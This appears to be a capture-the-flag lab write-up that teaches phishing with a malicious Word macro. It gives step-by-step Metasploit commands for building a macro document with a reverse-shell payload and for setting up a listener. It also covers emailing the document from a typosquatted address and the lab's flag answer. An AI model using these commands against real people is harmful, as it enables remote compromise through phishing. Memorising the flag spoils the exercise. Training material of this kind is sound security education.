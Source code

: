 # Day 10: He had a brain full of macros, and had shells in his soul.

**Learning Objectives**
- Understand how phishing attacks work
- Discover how macros in documents can be used and abused
- Learn how to carry out a phishing attack with a macro

### Phishing Attacks

Security is as strong as the weakest link. Many would argue that humans are the weakest link in the security chain. Is it easier to exploit a patched system behind a firewall or to convince a user to open an “important” document? Hence, “human hacking” is usually the easiest to accomplish and falls under social engineering.

Phishing works by sending a “bait” to a large group of target users. Attackers often craft their messages with a sense of urgency, prompting target users to take immediate action without thinking critically, increasing the chances of success. The purpose is to steal personal information or install malware, usually by convincing the target user to fill out a form, open a file, or click a link.
The attacker just needs to have their target users open the malicious file or view the malicious link. This can trigger specific actions that would give the attacker control over your system.

### Macros

In computing, a **macro** refers to a set of programmed instructions designed to automate repetitive tasks. MS Word, among other MS Office products, supports adding macros to documents. In many cases, these macros can be a tremendous time-saving feature. However, in cyber security, these automated programs can be hijacked for malicious purposes.

### Attack Plan

In his plans, Mayor Malware needs to create a document with a malicious macro. Upon opening the document, the macro will execute a payload and connect to the Mayor’s machine, giving him remote control. Consequently, the Mayor needs to ensure that he is listening for incoming connections on his machine before emailing the malicious document to Marta May Ware. By executing the macro, the Mayor gains remote access to Marta’s system through a reverse shell, allowing him to execute commands and control her machine remotely. The steps are as follows:

1. Create a document with a malicious macro
2. Start listening for incoming connections on the attacker’s system
3. Email the document and wait for the target user to open it
4. The target user opens the document and connects to the attacker’s system
5. Control the target user’s system

You might wonder why you don’t set the malicious macro so that you can connect to the target system directly instead of the other way around. The reason is that when the target system is behind a firewall or has a private IP address, you cannot reach it and, hence, cannot connect to it.

### Attacker’s System

On the **AttackBox**, you need to carry out two steps:
- Create a document with an embedded malicious macro
- Listen for incoming connections

### Creating the Malicious Document

The first step would be to embed a malicious macro within the document. You will use the Metasploit Framework to create the document. This requires the following commands:

- Open a new terminal window and run `msfconsole` to start the Metasploit Framework
- `set payload windows/meterpreter/reverse_tcp` specifies the payload to use; in this case, it connects to the specified host and creates a reverse shell
- `use exploit/multi/fileformat/office_word_macro` specifies the exploit you want to use. Technically speaking, this is not an exploit; it is a module to create a document with a macro
- `set LHOST 10.10.196.139` specifies the IP address of the attacker’s system, `10.10.196.139` in this case is the IP of the AttackBox
- `set LPORT 8888` specifies the port number you are going to listen on for incoming connections on the AttackBox
- `show options` shows the configuration options to ensure that everything has been set properly, i.e., the IP address and port number
![image](https://github.com/user-attachments/assets/9e669109-62e9-415a-9448-4f453dd0eea3)
- `exploit` generates a macro and embeds it in a document
- `exit` to quit and return to the terminal
![image](https://github.com/user-attachments/assets/a1b381b9-1182-47bf-b9a1-382458f8703e)
As you can see, the Word document with the embedded macro was created and stored in `/root/.msf4/local/msf.docm`.

### Listening for Incoming Connections

We again will use the Metasploit Framework, but this time to listen for incoming connections when a target users opens our phishing Word document. This requires the following commands:

- Open a new terminal window and run `msfconsole` to start the Metasploit Framework
- `use multi/handler` to handle incoming connections
- `set payload windows/meterpreter/reverse_tcp` to ensure that our payload works with the payload used when creating the malicious macro  
- `set LHOST 10.10.196.139` specifies the IP address of the attacker’s system and should be the same as the one used when creating the document
- `set LPORT 8888` specifies the port number you are going to listen on and should be the same as the one used when creating the document
- `show options` to confirm the values of your options
![image](https://github.com/user-attachments/assets/5821e20f-d568-42e6-aa7b-f0a44f211ebd)
- `exploit` starts listening for incoming connections to establish a reverse shell
![image](https://github.com/user-attachments/assets/fa12a961-d232-444d-855a-4af19078bd83)

### Email the Malicious Document

The malicious document has been created. All you need to do is to send it to the target user. It is time to send an email to the target user, `marta@socmas.thm`. Mayor Malware has prepared the following credentials:

- Email: `info@socnas.thm`
- Password: `MerryPhishMas!`

Notice how Mayor Malware uses a domain name that looks similar to the target user’s. This technique is known as “typosquatting", where attackers create domain names that are nearly identical to legitimate ones in order to trick victims.

1. On the AttackBox, start the Firefox web browser and head to `http://10.10.0.136`. Use the above credentials to log in.
2. Once logged in, compose an email to the target user, and don’t forget to attach the document you created. Write a couple of sentences explaining what you are attaching to convince Marta May Ware to open the document.
3. To attach the malicious file, in the file upload, go to root -> .msf4 -> local and select the **msf.docm**.
>[!note]
>You can use **CTRL+H** on the file upload pop-up to be able to see hidden files, including the `.msf4` directory where our email attachment is located.
![image](https://github.com/user-attachments/assets/be1ee304-14aa-4044-9065-65297430ad69)

### Exploitation

If everything works out, you will get a reverse shell after about 2 minutes.
![image](https://github.com/user-attachments/assets/e50d3387-9120-49a7-a489-f87c4595f922)

You can access the files and folders on the target system via the command line. You can use `cat` to display any text file.

### Answers
1. What is the flag value inside the `flag.txt` file that’s located on the Administrator’s desktop? **THM{PHISHING_CHRISTMAS}**.
![image](https://github.com/user-attachments/assets/78fccd4e-a75a-4d8d-b924-421466d041c8)
